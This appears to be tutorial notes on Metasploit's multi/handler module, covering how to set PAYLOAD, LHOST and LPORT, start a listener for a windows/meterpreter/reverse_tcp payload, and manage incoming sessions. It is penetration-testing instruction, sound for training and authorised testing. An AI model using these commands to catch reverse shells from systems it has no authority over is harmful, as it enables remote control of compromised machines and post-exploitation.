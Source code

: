**Multi/Handler Overview:**

**Multi/Handler** is a vital tool within the Metasploit framework, specifically designed for catching reverse shells. It plays a crucial role when using Meterpreter shells and is the preferred method for handling staged payloads. The primary function of Multi/Handler is to listen for incoming connections from exploited systems and facilitate the establishment of reverse shells. Unlike simple listeners in tools like Netcat, Multi/Handler is more sophisticated and designed to handle complex scenarios involving staged payloads.

**Usage Steps:**
1. Open Metasploit with `msfconsole`.
2. Type `use multi/handler` and press enter to set up a Multi/Handler session.
3. Use the `options` command to view and set the required parameters.

**Setting Options:**
- `set PAYLOAD <payload>`: Specifies the payload to use.
- `set LHOST <listen-address>`: Sets the listening address for the handler.
- `set LPORT <listen-port>`: Sets the listening port for the handler.

**Starting the Listener:**
- Use the `exploit -j` command to launch the module as a job in the background.
```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-ip set LPORT listening-port run
```

**Notes:**
- **LHOST Requirement:** Unlike tools like Netcat or Socat, Metasploit's Multi/Handler requires explicit specification of the listening address (LHOST). It does not automatically listen on all network interfaces.
- **Sudo Permissions:** If the desired listening port is under 1024, Metasploit must be run with `sudo` permissions.

**Handling Sessions:**
- To interact with the backgrounded Multi/Handler session, use `sessions -i <session-number>` to foreground it. The session number is displayed when the shell is opened, or it can be found using the `sessions` command.

**Example Scenario:**
- After running the staged payload generated with msfvenom, Multi/Handler receives the connection, completes the payload execution, and provides a reverse shell.

**Note:** Understanding how to use Multi/Handler is essential for managing incoming connections from exploited systems and facilitating post-exploitation activities, especially when dealing with staged payloads and Meterpreter shells within the Metasploit framework.